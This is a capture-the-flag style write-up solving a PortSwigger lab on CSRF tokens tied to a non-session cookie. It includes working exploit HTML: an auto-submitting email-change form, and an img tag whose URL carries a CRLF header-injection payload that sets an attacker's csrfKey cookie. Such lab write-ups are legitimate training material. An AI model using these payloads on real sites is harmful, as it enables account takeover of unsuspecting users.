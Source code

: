 # Lab: CSRF where token is tied to non-session cookie
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- wiener:peter
- carlos:montoya

# Solution
Start by logging in with the wiener user to get access to the email form. And as we can see the form has a CSRF token hidden inside the change email form.  
![](./img/Lab_5_Change_mail_form_HTML.png)


There is also an cookie sent with the request from the client.  
![](./img/Lab_5_CSRF_cookie.png)


Doing a request to change the mail to see what the change mail request looks like.  
![](./img/Lab_5_Change_email_req.png)


So there are two CSRF tokens sent in the request, one stored in a cookie and one hidden in the form on the page. We have access to another account, let's login to see if we can steal the tokens of that account to change the email of the wiener account.  


Getting carlos tokens. 
![](./img/Lab_5_Carlos_tokens.png)


Both tokens are needed, else we get the "Invalid CSRF token" error show here.  
![](./img/Lab_5_Invalid_token_error.png)



But by entering both "stolen" tokens as a cookie and in the body we get the app to change our email. Now we now that the tokens aren't tied to a specific user session and that two tokens are needed, one being set as a cookie and one hidden in the form like in previously completed labs. With this knowledge we can start creating our exploit.   
```html
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a960064042243f080832b8e0059007d.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evil@pwned.com">
        <input required type=hidden name=csrf value=N5h6mhGXE5nIGdgNNjilux7ow2R4TJSe>
        <button class='button' type='submit'> Update email </button>
    </form>
		<script>
			document.forms[0].submit()
		</script>
</body>
</html>
```


Now we need to find a way to get the server to set a cookie in the client that contains our attacker token (from the wiener account).

After exploring the page it was noticed that a cookie is set when using the search function on the "Home" page containing the string from the search field. This tells us that user input is used to set the value of the cookie.   
![](./img/Lab_5_Search_cookie.png)


Testing this further proves that making a get request to "/" with a "search" query set a cookie with a value of what ever we enter into the parameter. We need to set an additional cookie with our attacker token.    
![](./img/Lab_5_Set_cookie_with_search.png)


Researching URL encoding i found that:
- ```%0d``` is the action to "Carrige Return"
- ```%0a``` is the action for "Line Feed"
These actions are used create a new line in the HTTP header, CRLF.
So adding a semi-colon ";" to break out from the "Set-Cookie" header and adding ```%0d%0a``` to the query will create a new line in the HTTP header, like this:  
![](./img/Lab_5_Setting_our_own_cookie.png)


So now we only need to make our exploit to create a GET request with ```/search``` query containing our value to create a new line to set a cookie. For this can we use a img tag. And because we need to make the request to set our cookie first, before posting the form for changing the email we can use the onerror attribute on the img tag to execute the JavaScript when the img tag fails to load an image.  
```html 
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a960064042243f080832b8e0059007d.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evilner@pwned.com">
        <input required type=hidden name=csrf value="NbSDcezTKEkhFRmNrqpL5GcDq2GHrATd">
        <button class='button' type='submit'> Update email </button>
    </form>
    <img src="https://0a960064042243f080832b8e0059007d.web-security-academy.net/?search=123%3b%0d%0aSet-Cookie:%20csrfKey=lLto51zgFsJHz7q6LUtbpbI40kfAF7xd%3b%20SameSite=None" onerror="document.forms[0].submit()"
</body>
</html>
```



![](./img/Lab_5_Solved.png)